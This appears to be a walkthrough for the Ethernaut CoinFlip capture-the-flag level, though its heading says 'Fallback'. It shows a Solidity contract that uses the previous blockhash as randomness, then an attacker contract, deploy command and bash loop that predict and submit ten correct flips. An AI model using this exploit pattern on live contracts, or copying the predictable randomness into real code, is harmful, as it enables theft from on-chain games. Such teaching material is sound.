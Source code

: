 ## Fallback Level Outline

**Difficulty : 3/10**

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution
Because the flip is calculated onchain using the previous blockhash, we can predict what the outcome will be by simulating the coinflip on our custom smart contract and submitting the result.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in the `src` directory
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import 'openzeppelin-contracts/contracts/utils/math/SafeMath.sol';

contract FortuneTeller {
    using SafeMath for uint256;
    CoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlip) {
        coinFlip = CoinFlip(_coinFlip);
    }

    function predictFuture() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        bool prediction = blockValue.div(FACTOR) == 1 ? true : false;

        coinFlip.flip(prediction);
    }
}

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:FortuneTeller --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. create a simple bashscript to flip the coin 10 times
```console
touch flip.sh
```
contents off `flip.sh`
```bash
#!/bin/bash
for i in {1..10}
do
    cast send $DEPLOYED_ADDRESS "predictFuture()" --gas 80000 --private-key $PRIVATE_KEY
    sleep 20s
    echo Correct Flips : $i
done
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

4. run `flip.sh`
```console
chmod 777 flip.sh
./flip.sh
```

